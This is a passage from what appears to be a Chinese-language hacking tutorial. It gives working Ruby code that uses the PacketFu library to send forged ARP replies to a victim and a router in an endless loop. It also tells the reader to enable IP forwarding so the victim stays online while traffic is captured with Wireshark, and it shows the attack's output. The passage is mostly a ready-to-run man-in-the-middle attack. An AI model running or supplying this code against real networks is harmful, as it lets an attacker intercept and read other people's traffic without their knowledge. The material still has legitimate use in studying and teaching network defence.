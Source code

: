 ```
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end 
```

> 注意：不要忘记在系统上启用数据包转发，以允许受害者浏览互联网。
> 
> `echo "1" > /proc/sys/net/ipv4/ip_forward`

返回，是时候开始wiresharking了 ;)

```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1 
```

* * *

> ¹. 创建表格的简便方法 - [表格生成器](http://www.tablesgenerator.com/markdown_tables) [↩](#reffn_1 "跳回到文本中的脚注[1]")
> 
> ². 来源：[使用PacketFu进行DNS欺骗](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/) [↩](#reffn_2 "跳回到文本中的脚注[2]")
